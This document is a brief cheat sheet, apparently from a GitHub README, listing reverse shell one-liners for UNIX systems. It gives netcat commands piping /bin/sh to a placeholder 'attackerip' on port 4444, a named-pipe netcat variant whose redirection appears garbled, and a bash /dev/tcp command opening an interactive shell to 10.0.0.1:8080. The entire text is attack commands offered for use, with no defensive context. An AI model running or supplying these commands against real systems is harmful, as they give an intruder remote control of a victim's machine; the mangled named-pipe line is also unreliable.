## Reverse Shell One-liners
These are a list of shell one liners which be invoked on most of UNIX systems

### 1. Netcat

For old versions of netcat -
> nc attackerip 4444  -e /bin/sh
> /bin/sh | nc attackerip 4444  

This should work on most modern implementation of nc
> rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p  

If you require to use old versions of netcat you can do so by 
> sudo apt-get install netcat-traditional

### 1. Bash



bash -i >& /dev/tcp/10.0.0.1/8080 0>&1